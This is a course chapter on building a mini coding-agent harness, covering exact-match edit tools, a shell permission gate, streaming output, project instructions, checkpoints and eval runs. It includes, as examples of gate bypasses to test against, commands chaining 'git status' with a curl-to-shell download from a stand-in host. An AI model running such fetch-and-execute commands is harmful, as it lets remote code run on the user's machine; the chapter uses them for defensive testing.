



# Build a mini coding harness

## Why this matters

By now `project/` has a loop, a few tools, token tracking and compaction. That is an agent. What makes Claude Code or opencode feel different is not a cleverer loop. It is the layer around the loop: an edit tool that fails in a way the model can recover from, a gate that stops a stray `rm` before it runs, output you can read while it streams, project rules that are loaded without you retyping them, and an undo for when the agent gets it wrong. [5.1](/part-05-harnesses/5.1-what-is-a-harness) named those components and [5.2](/part-05-harnesses/5.2-harness-anatomy) showed them in a production codebase. This chapter has you build the smallest working version of each, so that every harness feature you meet afterwards (permission modes, rewind, plan mode) reads as a variation on something you have already written.

You will also finish the loop that Part 4 opened: the same eval set that scored the plain agent now scores the harness, so "it feels better" becomes a number you can compare.

**Learning goals**

- Add coding tools (precise edits, search, tests) and permission prompts
- Add a usable terminal UX
- Run it on your eval set

## Explanation

### What you are adding, and where it plugs in

Take stock of what `project/` already does (see the table in `project/ROADMAP.md` for the order; this step is step 19, built on steps 2, 3 and 7):

- From [3.2](/part-03-agents/3.2-agent-loop): the loop, `read_file`, `run_shell`, a step log.
- From [3.3](/part-03-agents/3.3-tool-design): `edit_file`, `list_files`, `search`, and the habit of reading transcripts to fix tool surfaces.
- From [3.4](/part-03-agents/3.4-context-engineering): token tracking and compaction.
- From [3.8](/part-03-agents/3.8-agents-md-and-skills): loading `AGENTS.md` into the system prompt.

None of the new pieces changes the loop's shape. Each one sits at a seam: before a tool runs, around a tool's effect, or on the way out to the terminal.

Three of those boxes are new code (gate, checkpoint, renderer), one is a rewrite (the edit tool, to a harder standard than in 3.3), and one is a wiring job (project instructions). The sections below take them in that order.

### Edit tools: search/replace, patches and whole files

Every coding harness has to answer one question first: **how does the model say what to change?** The answer sets how many tokens an edit costs, how often an edit fails to apply, and what the model sees when it does.

| Style | The model sends | Strength | Weakness |
|---|---|---|---|
| **Whole file** | The complete new file | Nothing to match, nothing to fail | Slow and costly for a three-line change, and the model may silently drop parts it "remembers" |
| **Search/replace** | `old_string` and `new_string` | Small; the old text anchors the location; easy to validate | Fails if `old_string` is not exact or not unique |
| **Patch (unified diff)** | Hunks with context lines | Familiar from `git diff`; can touch several places in one call | Line numbers and context are easy to get subtly wrong; needs a tolerant parser |
| **Line-range edit** | "Replace lines 40 to 52 with..." | Short | Breaks if the model's idea of line numbers is stale, which it often is |

Aider's documentation describes the first three as first-class formats: `whole` ("a full, updated copy of each source file that needs changes"), `diff` (search/replace blocks, "an efficient format, because the model only needs to return parts of the file which have changes") and `udiff` (based on unified diff, "mainly used to the GPT-4 Turbo family of models, because it reduced their 'lazy coding' tendencies"). It also says that different models work better with different formats and that Aider picks the best one for each popular model ([Aider: Edit formats](https://aider.chat/docs/more/edit-formats.html)). That is the model-harness co-design from 5.1 in one setting: there is no universally best format, only a best one per model.

The reasons are worth reading in the original. In the post that introduced Aider's unified-diff format, the author reports that on a laziness benchmark the older search/replace format scored 26% on June GPT-4 and the new format 59%, and credits four properties of a good format: familiar to the model from training data, simple (no escaping, no "brittle specifiers like line numbers"), high level (whole functions rather than single-line surgery) and flexible in how the harness interprets what comes back ([Aider: Unified diffs make GPT-4 Turbo 3X less lazy](https://aider.chat/2023/12/21/unified-diffs.html)). Those numbers are from one old model family and a benchmark the author built, so treat them as the origin of an idea, not as a ranking. Two of its claims are worth carrying over as hypotheses to test on your own model: line numbers are a bad way to point at code, and wrapping source code in JSON invites escaping errors (the post says the JSON route made GPT's code more often syntactically wrong). Your edit tool *is* a JSON tool call, so test it with strings that contain quotes and backslashes.

::: info 📖 Read now
[Aider: Unified diffs make GPT-4 Turbo 3X less lazy](https://aider.chat/2023/12/21/unified-diffs.html) · article · ~10 min · optional

Look for: the four design principles (familiar, simple, high level, flexible), why line numbers are dropped and each hunk is treated as a search-and-replace, and the ablation experiments. Read it as a method for evaluating an edit format on your own tasks, not as a verdict about today's models.
:::

#### The choice for this chapter: exact-match replace

Anthropic's own text editor tool is the reference for the style you will build. Its commands are `view`, `str_replace`, `create` and `insert`; `str_replace` takes `old_str` ("must match exactly, including whitespace and indentation") and `new_str`, and the docs' implementation notes say to make sure "replacements match exactly one location to avoid unintended edits". Their sample handler returns "No match found" when there is no match and "Found N matches" when there are several, as an error result, never an exception ([Claude API docs: Text editor tool](https://platform.claude.com/docs/en/agents-and-tools/tool-use/text-editor-tool)). opencode's `edit` has the same shape with a `replaceAll` flag, plus the forgiving tiers and the teaching failure messages you read in [5.2](/part-05-harnesses/5.2-harness-anatomy).

Exact match is the right start because it is **verifiable before anything changes**: count occurrences of `old_string` in the file. Zero, one or many each have a different, cheap answer.

| Situation | What the tool does | What the model needs to hear |
|---|---|---|
| Exactly one match | Replace, write, report success with a short snippet or line number of the change | Confirmation it can rely on without re-reading the file |
| Zero matches | Change nothing | "Not found." Then either that `new_string` is already present (the edit may already be applied) or the nearest lines with their line numbers |
| Several matches | Change nothing | How many, and "add surrounding lines to make `old_string` unique, or set `replace_all`" |
| `old_string` equals `new_string` | Change nothing | "No change requested" (a no-op is almost always a model slip) |
| File missing | Change nothing | The path it asked for, and a hint to `list_files` or `search` |
| Path escapes the working directory | Change nothing | The root it must stay inside |
| `old_string` empty, file missing | Create the file, if you decide `edit_file` creates | State this rule in the description so the model does not guess |

Two details separate a toy from a tool you can leave running:

- **Do not half-apply.** An edit either writes the whole new file or leaves the old one. Write to a temporary file in the same directory and rename it over the original, so a crash mid-write cannot leave a truncated source file. (My design advice, not a rule from the sources.)
- **Preserve the file's own habits.** Keep the original line endings and the trailing newline. 5.2 showed opencode working on an LF view and mapping back to CRLF; you do not need the full machinery, but you should at least detect CRLF and refuse or preserve rather than corrupting the file.

What about normalising quotes and whitespace when the exact match fails, as opencode does? Leave it out first. Build the exact-match version, run it on your eval set, and count the "not found" results. If the transcripts show the model failing on trailing whitespace or curly quotes, add one tier at a time, each justified by a failure you saw. That is the method from [3.3](/part-03-agents/3.3-tool-design): the tool's design follows the transcripts, not your imagination of them.

::: info 📖 Read now
[Claude API docs: Text editor tool](https://platform.claude.com/docs/en/agents-and-tools/tool-use/text-editor-tool) · docs · ~15 min · **essential**

Look for: the four commands, the exactness and uniqueness requirements for `str_replace`, the error results (`is_error: true`) the sample handler returns for no match, several matches and permission problems, and the advice to verify after the edit by running tests. Compare its input schema with the one you wrote in 3.3 and decide what you would copy.
:::

::: info 📖 Read now
[Anthropic: Writing effective tools for agents, with agents](https://www.anthropic.com/research/writing-tools-for-agents) · article · ~25 min · optional

You read this for 3.3 (the same article also appears under `/engineering/`, which redirects here). Re-read it now with the edit tool in mind: look for the passages on error messages that tell the agent what to do next, on bounding and truncating output, and on measuring tool use with an eval set. Each one maps to a row in the table above.
:::

A second source for the *why*: the SWE-agent paper argues that language-model agents are a new kind of user that benefits from interfaces built for them, and shows that the design of that agent-computer interface changes how well they solve software tasks ([SWE-agent: Agent-Computer Interfaces Enable Automated Software Engineering](https://arxiv.org/abs/2405.15793), abstract). Your edit tool, search tool and shell are that interface.

::: info 📖 Read now
[SWE-agent: Agent-Computer Interfaces Enable Automated Software Engineering](https://arxiv.org/abs/2405.15793) · paper · ~30 min · optional

Look for: how the authors define the agent-computer interface and what it covers (creating and editing files, navigating a repository, running tests and programs, per the abstract), then the section where they discuss how interface design changes agent behaviour. Skip the benchmark tables; the numbers belong to the models of 2024.
:::

#### The shell is also an edit tool

`run_shell` can write files (`sed -i`, redirects, `git checkout`), so every guarantee your edit tool makes can be bypassed by a shell command. Two consequences shape the rest of the chapter: the permission gate has to treat shell as a write-capable tool, and checkpoints that only watch `edit_file` will miss shell-made changes. Claude Code's docs state the second limit plainly: a file changed only by Bash commands "isn't tracked" and has to be reverted with version control ([Claude Code docs: Checkpointing](https://code.claude.com/docs/en/checkpointing)).

### Permission model

A permission gate is a function from *a proposed tool call* to *allow, ask or deny*. Everything else (modes, config files, "always allow") is how that function gets its rules.

#### Three questions

1. **What is the action and what does it touch?** `edit_file` on `src/util.ts` and `run_shell` with `npm test` are different actions on different resources. 5.2 showed opencode's rule shape: an action (the tool), a resource (a path or command) and an effect.
2. **Which rule wins?** Harnesses disagree, and the disagreement is instructive. Claude Code evaluates "deny, then ask, then allow. The first match in that order determines the outcome, and rule specificity doesn't change the order", so a broad deny cannot be overridden by a narrower allow ([Claude Code docs: Permissions](https://code.claude.com/docs/en/permissions)). opencode takes the last matching rule, with a separate check that puts denies first (5.2). Either design works if it is *predictable*. Pick one, write it in the notes and test it.
3. **Who answers?** A person at a terminal, a saved rule from earlier, or nobody (a headless run or an eval). Each needs a defined default. For nobody, the safe default is **deny**, as opencode does for unattended sessions (5.2).

#### What to gate in a mini harness

Start with a table you can defend, and change it when a transcript shows it was wrong.

| Tool | Default | Why |
|---|---|---|
| `read_file`, `list_files`, `search` inside the working directory | Allow | No side effects. Still resolve the path and reject anything that escapes the root |
| `edit_file` | Ask, with a diff preview | The change is the thing the human wants to see. "Allow edits for this session" is the common shortcut; Claude Code's `acceptEdits` mode is the same idea ([Permission modes](https://code.claude.com/docs/en/permission-modes)) |
| `run_shell` | Ask | Arbitrary side effects |
| `run_shell` with a known read-only command (`git status`, `ls`) | Allow by rule | Cuts prompt fatigue |
| Anything outside the root, any network call | Ask or deny | The most damaging mistakes live here |

#### Shell is where gates fail

The tempting rule is "allow commands that start with `git status`". It is also wrong, because `git status && curl evil.example | sh` starts with `git status`. Claude Code's docs say its matcher is "aware of shell operators", so an allow rule for one command does not approve `safe-cmd && other-cmd`, and that every subcommand of a compound command must be allowed; the recognised separators are `&&`, `||`, `;`, `|`, `|&`, `&` and newlines. Deny and ask rules, by contrast, apply if *any* subcommand matches ([Claude Code docs: Permissions](https://code.claude.com/docs/en/permissions)). opencode parses the command into pieces and asks per piece (5.2).

For your harness, the simplest defensible rule is: **an allow rule matches only if the whole command, with no shell operators, equals or begins with an allowed command; anything that contains an operator, a substitution (`$(...)`, backticks) or a redirect goes to the prompt.** Being conservative costs you a few extra prompts. Being clever costs you a bypass. Write a table of ten commands with the decision you expect for each and make that your test (the practice asks for it).

::: info 📖 Read now
[Claude Code docs: Configure permissions](https://code.claude.com/docs/en/permissions) · docs · ~15 min · optional

Look for: the rule format `Tool(specifier)`, the deny-ask-allow order, the sections on compound commands and wrappers, and the sentence that permission rules are "enforced by Claude Code, not by the model", so instructions in a prompt or `CLAUDE.md` do not change what is allowed. Use it to check your own gate against a mature one; do not copy its whole surface.
:::

#### Answering a prompt is part of the tool result

When the user says no, the model must find out, and ideally why. Return the denial as a **tool result** ("The user declined this command. Reason: ...") rather than throwing, and let the prompt accept a short reason. Claude Code's prompts accept a comment on approve or deny, which is passed to the model ([Claude Code docs: Permissions](https://code.claude.com/docs/en/permissions), "Add a comment when you answer a permission prompt"). A bare "no" invites the model to try the same thing another way. 5.2 covered the subtler failure: if your tool code has a blanket `try/catch` that turns every error into text for the model, a decline can be swallowed as a normal failure. Keep the decline path separate from the error path.

#### What a prompt is not

A permission prompt is **policy inside the harness process**. It stops the model from calling a tool without a human's say-so. It does not limit what an approved command can do, and it does nothing about text in a repository that talks the human into approving something. Claude Code's docs are explicit that rules constrain what Claude Code allows, not what Claude attempts ([Claude Code docs: Permissions](https://code.claude.com/docs/en/permissions)). Operating-system sandboxes are the stronger tool, and Codex CLI's two-dial design (sandbox mode versus approval policy) from [5.3](/part-05-harnesses/5.3-harness-comparison) is the contrast. [8.3](/part-08-production/8.3-sandboxing) puts your shell in one. For this chapter, the prompt is the control, and you should say so plainly in your notes.

### Streaming terminal UI

A harness that prints nothing for forty seconds and then dumps a page feels broken, even when it is working. Streaming is not decoration: it is how the human catches a wrong turn early and presses Ctrl-C.

You met the wire format in [2.2](/part-02-programming-with-llms/2.2-streaming). The parts a renderer cares about, in Anthropic's event names: a message starts, then each content block has a `content_block_start`, a run of `content_block_delta` events and a `content_block_stop`, and the message ends with `message_delta` and `message_stop`; `ping` events can appear anywhere. A text block's deltas are `text_delta` fragments. A tool call's deltas are `input_json_delta` events carrying *partial JSON strings*: you accumulate them and parse once the block stops, and the docs add that current models emit one complete key and value at a time, so there can be pauses between events while the model works ([Anthropic: Streaming messages](https://platform.claude.com/docs/en/build-with-claude/streaming)). Other providers differ in framing; whether a local model streams tool arguments in fragments or whole is something to look at in the raw stream rather than assume (the practice asks you to).

#### What a usable terminal UX needs

- **Text appears as it arrives.** Write each delta to stdout without waiting for a newline. Do not re-render the whole message on each chunk; append.
- **Tool calls are one line, not a JSON dump.** Print the tool name and its main argument (`edit_file src/util.ts`, `run_shell npm test`) when the call is complete, and the result as a short summary with its size (`ok, 3 lines changed` or `exit 1, 48 lines of output, shown first 20`). Full arguments and results go to the step log from 3.2, not the screen.
- **Show the diff at the prompt.** For an edit, the permission prompt prints a small before/after of the change. A human can approve `src/util.ts` without knowing what changes; they can approve a three-line diff.
- **Pause the stream for a prompt.** Prompts and streamed text share one terminal. Decide who owns it: either buffer the stream's output until the prompt is answered, or stop reading events (by design, a prompt happens after a tool call completes, so there is usually nothing to print anyway). Test this with a model that writes text and a tool call in the same turn.
- **Ctrl-C does the right thing in layers.** The first press aborts the current model request or running command; the second exits. Aborting is the `AbortController` pattern from 2.2, and the same section tells you what to keep afterwards: the text shown, not the unfinished tool call. If an aborted turn leaves a `tool_use` in the history without a result, providers typically reject the next request, so write a synthetic result such as "interrupted by the user". opencode repairs stale tool calls at the start of each turn for the same reason (5.2).
- **Know whether you are on a terminal.** Colour, spinners and prompts belong to a TTY. When stdout is piped (an eval run, `| tee log.txt`), print plain lines. Node exposes the check as `isTTY` on the stdio streams and `tty.isatty(fd)` ([Node.js docs: TTY](https://nodejs.org/api/tty.html)). The same check decides whether anyone can answer a permission prompt, which feeds the "who answers?" question above.
- **Keep the UI a client of the loop.** The loop emits events (text, tool-start, tool-result, error); a renderer subscribes. opencode's front ends are clients of a core, as 5.2 showed, and that is the design that lets you later swap the terminal for the web UI in [8.6](/part-08-production/8.6-streaming-ui-auth) without touching the loop. A plain event emitter is enough.

You do not need a TUI framework. Plain `process.stdout.write`, a handful of ANSI colour codes, and `readline` for prompts cover everything above. A framework is a later decision, once you know which of these you actually miss.

::: info 📖 Read now
[Anthropic: Streaming messages](https://platform.claude.com/docs/en/build-with-claude/streaming) · docs · ~10 min · optional

You read this for 2.2. Return only to the event-flow list and the "Input JSON delta" part: this is the contract your renderer is written against. If your harness also supports Ollama, compare with the raw stream you saw in 2.2 and note where the framing differs.
:::

### Project instructions

You loaded `AGENTS.md` in [3.8](/part-03-agents/3.8-agents-md-and-skills), and the file is the same here. What changes is that a harness treats it as part of its own startup contract. Four things to check, each a small piece of wiring rather than new design:

1. **It is loaded before the first turn, with its path shown** (one line at startup: `instructions: ./AGENTS.md (412 tokens)`), so the human can see what the model was told.
2. **It survives compaction.** The 3.4 compaction summarises old turns. Project instructions belong to the system prompt, not to the history, so they should be rebuilt on every request instead of summarised. opencode's compaction template tells the summariser not to restate `AGENTS.md` conventions because "the next agent receives current versions of all of these separately" (5.2).
3. **The system prompt is generated from the tool list.** If you added `edit_file` and `run_shell`, the prompt can explain how `old_string` matching works and when to prefer `search` over `run_shell grep`; if a tool is disabled, its guidance disappears. 5.2 listed this as the cheapest idea to borrow: a prompt that describes a tool the agent does not have is a bug.
4. **Say what is not loaded.** Other harnesses read different files: Claude Code reads `CLAUDE.md` and documents how to reuse an existing `AGENTS.md` ([Claude Code docs: How Claude remembers your project](https://code.claude.com/docs/en/memory)). If you compare your harness with Claude Code on one repo (the practice suggests it), the instruction files have to carry the same content, per the method in [5.3](/part-05-harnesses/5.3-harness-comparison).

Instruction files are advice, not enforcement. Claude Code's permissions docs draw the line: instructions in a prompt or `CLAUDE.md` "shape what Claude tries to do, but they don't change what Claude Code allows" ([Permissions](https://code.claude.com/docs/en/permissions)). An `AGENTS.md` line "never run `rm -rf`" is a request to the model. A deny rule in your gate is a fact. Put hard limits in the gate and conventions in the file.

### Checkpoints and undo

An agent that edits files will, sooner or later, edit them wrongly. The question is how much that costs you. There are three common answers, and each is a design you can read in a real harness:

| Mechanism | How it works | Seen in | Catches shell changes? |
|---|---|---|---|
| **Git as the undo** | Commit before and after each edit; `/undo` reverts the last commit | Aider: "Whenever aider edits a file, it commits those changes with a descriptive commit message", with your own uncommitted work committed separately first ([Aider: Git integration](https://aider.chat/docs/git.html)) | Only if the harness commits after shell commands too |
| **Snapshot store** | Before the first write in each turn, copy the original contents of every file the tools will touch; restore on request | Claude Code's checkpoints: one per prompt that starts a turn, covering changes made by its file-editing tools ([Checkpointing](https://code.claude.com/docs/en/checkpointing)) | No: "Bash command changes not tracked" for files only a shell touched |
| **Your own version control** | The harness does nothing; you run it in a clean branch or worktree | Any harness, and what 5.3 told you to do for headless runs | Yes, if you commit before the run |

For a mini harness, the **snapshot store** is the best next step: it works in a directory that is not a git repository, it does not pollute history, and it is small. The design questions are the interesting part:

- **Granularity.** One checkpoint per *user prompt* (per turn), as Claude Code does, is the right unit: the human thinks "undo what it just did", not "undo edit 3 of 7". The docs say a checkpoint is created for "every prompt you send that starts a turn" and that file snapshots are kept for the 100 most recent checkpoints in a session ([Checkpointing](https://code.claude.com/docs/en/checkpointing)).
- **When to copy.** Lazily, just before the first write to each file in the turn. A file the agent only read costs nothing.
- **Created files.** If the turn created a file, restoring means deleting it, so the snapshot must record "did not exist", not just contents.
- **What it does not cover.** Say it out loud in the UI: the checkpoint covers `edit_file`, not changes made by shell commands. The permission prompt for `run_shell` is the only protection there, which is one more reason to keep it strict. Claude Code's page states the same limit and that checkpoints are "not a replacement for version control" ([Checkpointing](https://code.claude.com/docs/en/checkpointing)).
- **Code versus conversation.** Restoring files does not remove the agent's memory of the edits. After `/undo` the model still believes its changes are in place. Either append a message to the history ("The user reverted the edits of the last turn; files are back to their earlier state"), or truncate the history to the turn before. Claude Code's rewind menu lets you pick restoring code, conversation or both for exactly this reason.

::: info 📖 Read now
[Claude Code docs: Checkpointing](https://code.claude.com/docs/en/checkpointing) · docs · ~10 min · optional

Look for: what creates a checkpoint, what is tracked (file-editing tools) and what is not (Bash-only changes, other sessions, subagent edits in most cases), and the restore options for code, conversation or both. Compare each limit with your design and decide which you will accept in a mini harness.
:::

### Running the eval set

You built the eval set in [4.2](/part-04-evals-observability/4.2-eval-sets) and the runner and graders in [4.3](/part-04-evals-observability/4.3-code-based-checks). The harness work is only worth it if the numbers say so, and the harness adds things the runner has to handle.

- **Eval runs have no human.** The permission gate's "nobody answers" branch will be used on every run. Decide the policy explicitly in the runner: a task-scoped allow list (edit files and run the project's test command inside the task directory, nothing else) with everything else denied. Do not set "allow everything" to make the numbers go up: that turns the eval into a test of the model's good luck. Record the policy in the results, as the method in [5.3](/part-05-harnesses/5.3-harness-comparison) asks for comparable permissions.
- **Run in a throwaway copy of the task.** The harness now writes files for real, so each trial starts from a fresh copy of the task directory. The checkpoint store is for you, not for the eval.
- **Keep the model fixed and change one thing.** Run the *before* version (the step-2 agent) and the *after* version (the harness) on the same cases with the same model, and write the model name into the results. Include one local Qwen model and, if your budget allows, one cheap paid one from [Landscape](/landscape).
- **Read what changed in the transcripts, not only the pass rate.** Count edit-tool failures by kind (no match, several matches), declined permissions, and runs that ended in a stall. The failure taxonomy from [4.1](/part-04-evals-observability/4.1-error-analysis) is the vocabulary. A harness that raises the pass rate by 10 points on 25 cases has shown very little; a harness whose "no match" edits all trace to one cause has told you what to fix next.
- **Repeat.** One run per case is an anecdote, as 5.3 says. The multi-trial runner from [4.5](/part-04-evals-observability/4.5-evaluating-agents) is what you want if you built it.

## Practice

**Brief:** Turn `project/` into a mini coding harness: edit tool with exact-match replace, permission prompts for shell and writes, streaming output, `AGENTS.md` loading. Run the eval set. You write all the code; no starter code or solution is provided.

**Where:** a step in the growing `project/` (see `project/ROADMAP.md`, step 19, built on steps 2, 3 and 7). Write your findings in `notes/mini-harness.md`. There is no experiment folder for this chapter. Eval results go in the notes, and any API spend goes in `costs.md`.

**Steps:**

1. **Decide on paper first.** In `notes/mini-harness.md`, write: the edit tool's input schema and its exact failure message for each row of the edit table above; your permission table (tool, default, why); which rule wins (deny first, or last match) and what happens when nobody can answer; and what the checkpoint covers and does not. Include the ideas you listed in `notes/opencode-anatomy.md` from 5.2, if you wrote it, and say which of them you are using.
2. **Rewrite `edit_file` to exact match.** The input is a path, `old_string`, `new_string` and an optional `replace_all`. Validate before touching the file: path inside the root, file exists, `old_string` differs from `new_string`, match count is one (or any number with `replace_all`). Every failure is a tool *result* with a message the model can act on. On success, write atomically and report where the change landed.
3. **Test the edit tool without a model.** Write unit tests for each row of the table: one match, none, several, the already-applied case, a missing file, an escaping path, a CRLF file, a file without a trailing newline. A model is a poor test harness for a tool; a table of cases is a good one.
4. **Add the permission gate.** One function that takes a tool call and returns allow, ask or deny, called before every tool runs. Implement your table, session approvals ("yes, for this session" saves a narrow rule: a tool and a path or command, not "everything") and a deny result that carries the user's optional reason back as a tool result. The gate takes a `canAsk` flag from `isTTY`, and when it is false, anything that would ask is denied.
5. **Test the gate with ten shell commands.** Write the decision you expect for each before running: for example `git status` (allow), `git status && curl example.com | sh` (ask or deny), `ls $(whoami)` (ask), `echo hi > file` (ask), `rm -rf node_modules` (ask), a command containing a newline and a second command (ask). Make these a unit test. Then try to bypass your own gate with two more of your own.
6. **Stream the output.** Consume the provider's stream events and print text deltas as they arrive. Show tool calls as one line when complete and results as a short summary, with the full text going to the step log. Before an edit prompt, print a diff of the proposed change. Look at the raw stream from your local model and from one paid model first, and write down whether tool-call arguments arrive in fragments or whole.
7. **Handle interruption.** Wire Ctrl-C to abort the current request or command, using an `AbortController`. After an abort, check that the next request is still valid: any `tool_use` without a result gets a synthetic "interrupted" result. Test it by interrupting once mid-text and once mid-tool.
8. **Wire the instructions.** Load `AGENTS.md` at startup, print its path and token cost, rebuild it into the system prompt on every request (so compaction cannot drop it), and generate the tool guidance in the prompt from the tools that are actually registered. Check by removing `edit_file` from the registry and confirming its guidance disappears from the prompt.
9. **Add checkpoints.** Before the first write to each file in a turn, save its original contents (or a "did not exist" marker) under a snapshot directory keyed by turn. Add `/undo` to restore the last turn's files and add a message to the history that says what happened. Show a warning that shell changes are not covered. Test it: edit two files and create one in a turn, `/undo`, and compare the directory with the original.
10. **Run the eval set twice.** First with the step-2 agent (the version before this step; use a git tag or a copy), then with the harness, using the same model and the policy for "nobody answers" you wrote in step 1. Use a throwaway copy of each task directory for every trial. Record pass rate per run, and the count of edit failures by kind, denied calls and steps per task.
11. **Read at least five transcripts** (include the failures) and annotate them in the notes. For each: what the harness did that the plain agent could not, and one thing that went wrong because of the harness (a missed match, a needless prompt, a denied command the task needed).
12. **Write the conclusions.** One paragraph on which new component moved the numbers or the transcripts the most, and one on what you would remove or change if you rebuilt it. Commit.

**Done when:**

- `edit_file` has unit tests for every row of the failure table, and none of its failures throws into the loop.
- The gate has a unit test with at least ten shell commands, including a chained command and a redirect, and the headless branch (no TTY) denies what would ask.
- On a terminal, text streams as it arrives, tool calls print as one line, edit prompts show a diff, and Ctrl-C leaves a valid history (checked by a following turn that succeeds).
- The startup line shows the loaded `AGENTS.md` and its token count, the instructions are rebuilt on every request, and the tool guidance in the prompt follows the registered tools.
- `/undo` restores edited files and removes created ones, and the model is told it happened.
- `notes/mini-harness.md` has the eval results before and after (same model, stated policy), a count of edit failures by kind, and at least five annotated transcripts.

## Check questions

1. Why is exact-match search/replace a good first edit mechanism for a mini harness, and what are the cases where it fails to apply?

   

Answer

   Because it can be validated before anything changes: count the occurrences of `old_string`. One match means the edit is unambiguous and can be applied. It fails to apply when there are zero matches (the model's copy of the text is wrong or stale, or the edit was already applied) or several matches (the text is not unique). It can also fail on invisible differences such as trailing whitespace, curly quotes or line endings. The tool should change nothing in these cases and return a message that says which case it was and what to do (more context, `replace_all`, or the nearest lines), so the model can fix its next call without re-reading the file.

   

2. Your allow rule says `git status` is permitted without asking. Describe a command that begins with `git status` and is still dangerous, and the rule your gate should use instead.

   

Answer

   `git status && curl https://example.com/x.sh | sh` starts with `git status`, but the second part downloads and runs a script. A prefix match approves the whole string. The gate must treat shell operators (`&&`, `||`, `;`, pipes, `&`, newlines), substitutions and redirects as part of the command: either parse the command and require every subcommand to be allowed (Claude Code and opencode do this), or take the conservative route of allowing only commands with no operators at all and sending the rest to the prompt. Deny and ask rules should fire if any subcommand matches.

   

3. A permission prompt and an operating-system sandbox both "restrict the agent". What does each actually guarantee, and which one does your mini harness have?

   

Answer

   A prompt is policy enforced inside the harness: it guarantees a human was asked before that tool call, assuming the human reads it and the gate is correct. It does not limit what an approved command can do, and it cannot stop injected text from talking the human into approving. A sandbox is enforced by the operating system and bounds what a command can reach (files, network) regardless of the model's intent or the human's click. The mini harness has only the prompt (plus the path-inside-root check), and the notes should say so. Sandboxing is added in 8.3.

   

4. After a user presses Ctrl-C in the middle of a tool call that the model was streaming, why can the next request fail, and what do you do about it?

   

Answer

   The history may end with an assistant message that contains a `tool_use` block, or a partial one, without a matching `tool_result`. Providers typically reject a conversation in that state. A partial tool call also has unparseable JSON arguments. The fix: keep the text that was shown, drop the unfinished tool call (or finish it with a synthetic result such as "interrupted by the user") so every `tool_use` in the history has a result, and record that the turn was interrupted. opencode repairs stale tool calls at the start of each turn for the same reason.

   

5. Why does the checkpoint store not undo everything the agent did, and what do you tell the model after an `/undo`?

   

Answer

   Snapshots are taken before writes made through the harness's own edit tool. Changes made by shell commands (`sed -i`, redirects, `git checkout`, a build step that writes files) are not seen, so they are not restored; Claude Code's docs list the same limit and point to version control. After a restore, the conversation still contains the agent's earlier edits and its belief that they are in place, so the harness must tell the model that the files were reverted (or cut the history back to before that turn), or the next turn will build on edits that no longer exist.

   

6. Your harness scores slightly higher than the plain agent on the eval set, but you ran each case once with a different permission policy in each run. What can you conclude, and what do you change?

   

Answer

   Very little. A single run per case is within normal run-to-run spread, and a different permission policy is a second changed variable: the harness may simply have been allowed to do more. Fix the policy (same one, written down, with "nobody answers" denying anything outside it), keep the model fixed, repeat each case at least twice, and look at the transcripts for edit failures, denials and stalls to see which component changed behaviour.

   

## My understanding

<!-- Written by the learner, in their own words. Agents never fill this in. -->
